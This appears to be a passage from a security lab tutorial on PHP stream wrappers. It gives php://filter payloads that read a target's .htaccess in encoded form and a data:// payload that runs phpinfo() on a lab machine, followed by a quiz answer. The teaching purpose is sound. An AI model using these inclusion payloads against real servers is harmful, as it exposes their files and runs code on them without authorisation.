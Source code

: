 There are many categories of filters in PHP. Some of these are String Filters (string.rot13, string.toupper, string.tolower, and string.strip_tags), Conversion Filters (convert.base64-encode, convert.base64-decode, convert.quoted-printable-encode, and convert.quoted-printable-decode), Compression Filters (zlib.deflate and zlib.inflate), and Encryption Filters (mcrypt, and mdecrypt) which is now deprecated.

For example, the table below represents the output of the target file **.htaccess** using the different string filters in PHP.

|                                                       |                                              |
| ----------------------------------------------------- | -------------------------------------------- |
| **Payload**                                           | **Output**                                   |
| php://filter/convert.base64-encode/resource=.htaccess | UmV3cml0ZUVuZ2luZSBvbgpPcHRpb25zIC1JbmRleGVz |
| php://filter/string.rot13/resource=.htaccess          | ErjevgrRatvar ba Bcgvbaf -Vaqrkrf            |
| php://filter/string.toupper/resource=.htaccess        | REWRITEENGINE ON OPTIONS -INDEXES            |
| php://filter/string.tolower/resource=.htaccess        | rewriteengine on options -indexes            |
| php://filter/string.strip_tags/resource=.htaccess     | RewriteEngine on Options -Indexes            |
| No filter applied                                     | RewriteEngine on Options -Indexes            |

#### Data Wrapper

The data stream wrapper is another example of PHP's wrapper functionality. The `data://` wrapper allows inline data embedding. It is used to embed small amounts of data directly into the application code.

For example, go to [http://MACHINE_IP/playground.php](http://machine_ip/playground.php) and use the payload 
```
data:text/plain,<?php%20phpinfo();%20?>
```
In the below image, this URL could cause PHP code execution, displaying the PHP configuration details.
```
PHP Version 7.4.3-4ubuntu2.19
```

The breakdown of the payload `data:text/plain,<?php phpinfo(); ?>` is:

- `data:` as the URL.
- `mime-type` is set as `text/plain`.
- The data part includes a PHP code snippet: `<?php phpinfo(); ?>`.

```
What part of PHP's functionality allows users access to various data streams that can also access or execute code through built-in protocols?

PHP wrappers

```


